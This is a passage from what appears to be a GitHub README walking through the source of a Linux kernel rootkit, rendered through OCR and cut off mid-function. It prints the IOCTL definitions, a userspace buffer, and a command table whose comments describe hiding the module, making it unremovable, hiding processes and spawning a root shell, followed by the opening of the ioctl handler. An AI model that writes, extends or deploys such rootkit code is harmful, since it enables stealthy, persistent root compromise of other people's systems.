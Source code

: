         ### NOTE:
        > If any viewers see, using those omitted libraries are essential, please let me know!
        
        2. For reading and writing into device files:
        ```c
        #define WR_VALUE _IOW('a','a',int32_t*)
        #define RD_VALUE _IOR('a','b',int32_t*)
        ```
        Format of writing macro to manipulate device file: `#define “IOCTL Type” _IO(num1, num2, argument type)`, [source](https://linuxhint.com/c-ioctl-function-usage/).

        3. In order to read commands from registered Character Device Driver (i.e. commands which are stored inside Character Device Driver from <ins>Userspace</ins>), I created an array named **`value`** with size of MAX_LIMIT(=20) to store it and be compared against those provided/hardcoded commands present in the rootkit.

        ```c
        // For size of array
        #define MAX_LIMIT 20

        // To copy value from userspace
        char value[MAX_LIMIT];
        ```
        ```c
        // =========================== Available Commands =======================

        static char rootkit_hide[] = "hide";            // command to hide rootkit => In this mode, in no way this rootkit be removable => rootkit_remove will not work
        static char rootkit_show[] = "show";            // command to unhide rootkit => In this mode, rootkit_protect and rootkit_remove will work effectively
        static char rootkit_protect[] = "protect";      // command to make rootkit unremovable (even if it can be seen in usermode).
        static char rootkit_remove[] = "remove";        // command to make rootkit removable
        static char process[] = "process";              // command to hide/unhide running process/implant
        static char root[] = "root";                    // command to get root shell  
        ```
        The array named **`value`** will be checked against these above mentioned commands, to perform specific tasks.
        ```c
        // ======= This function will be called when somebody write IOCTL on the Device file =====

        static long etx_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
        {
        switch(cmd) {
                case WR_VALUE:
                        /*
                         * copy_from_user():
                         * - a direct read from the userspace address and write to the kernelspace address
                         * Or, Copy data from User space to Kernel Space
                         */
                        if( copy_from_user(value ,(int32_t*) arg, MAX_LIMIT) )
                        {
                                pr_err("Data Write : Err!\n");
                        }
                        pr_info("               Value got from device file= %s\n", value);
